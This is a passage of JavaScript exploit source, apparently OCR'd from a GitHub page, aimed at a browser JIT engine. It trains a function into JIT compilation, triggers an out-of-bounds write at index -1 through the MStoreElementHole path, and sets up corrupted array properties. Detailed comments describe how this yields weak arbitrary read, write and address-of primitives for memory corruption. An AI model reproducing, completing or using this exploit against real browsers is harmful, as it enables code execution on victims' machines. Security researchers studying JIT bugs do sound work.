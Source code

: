     for(var i = 0; i < JITIterations; i++) {
        SideEffectArray.length = 4; // Reset the length so that StoreElementHole node is used
        BuggedJITFunc(5, 11, 2.67371469724e-312);
    }

    // Call the JIT'd bugged function one more time, this time with an OOB write index of -1. There is substantial significance to using -1 as opposed to some other (larger) index which would still go OOB and trigger a side effect. The reason being that -1 is considered an "invalid index" (not just an OOB index) and is treated differently. OOB writes to the SideEffectArray with valid albeit indexes which will fail the boundscheck restrictions and will not trigger useful side effects. The reason for this being that access to valid indexes will cause the creation of a MSetPropertyCache node in the MIR, a node which is not susceptible to the exploit condition. The MIR instruction chosen to handle the SideEffectArray OOB MUST be MStoreElementHole, and MStoreElementHole will only be selected in the event of an INVALID index access, not simply an OOB one.

    SideEffectArray.length = 4; // Reset the length one more time
    BuggedJITFunc(-1, 11, 2.67371469724e-312);

    // Initialize mutable array properties for R/W/AddressOf primitives. Use these specific values so that it can later be verified whether slots pointer modifications have been successful.

    MutableArray.x = 5.40900888e-315; // Most significant bits are 0 - no tag, allows an offset of 4 to be treated as a double
    MutableArray.y = 0x41414141;
    MutableArray.z = 0; // Least significant bits are 0 - offset of 4 means that y will be treated as a double

    /*//////
    ////////
    // Arbitrary read/write/address-of primitives
    ////////

    ~ Weak arbitrary read

    8 bytes of data can be leaked from the address pointed to by the mutable array
    NativeObject.SlotsPtr, as this address is interpreted as holding the value of
    'x' (stored as a double). The drawback is that if the 8 bytes cannot be
    interpreted as a valid double, they may be interpreted as a pointer and
    dereferenced. In this sense, some values may not be be readable with this
    primitive.

    ~ Weak arbitrary write

    In the same way that the 'x' property pointed at by the slots pointer can be
    used to read doubles it can also be used to write doubles. The only drawback
    being that the value being written must be a valid double.

    ~ Weak AddressOf

    The mutable array slots pointer (in its native object struct) is going to be
    pointing at an array of 3 property values (for x, y and z). Since we are
    trying to leak the object address (which will be written into the property
    array slots for x, y or z) as a double, this will cause issues as the JS engine
    will (correctly) attempt to dereference this address rather than interpret it
    as a double.
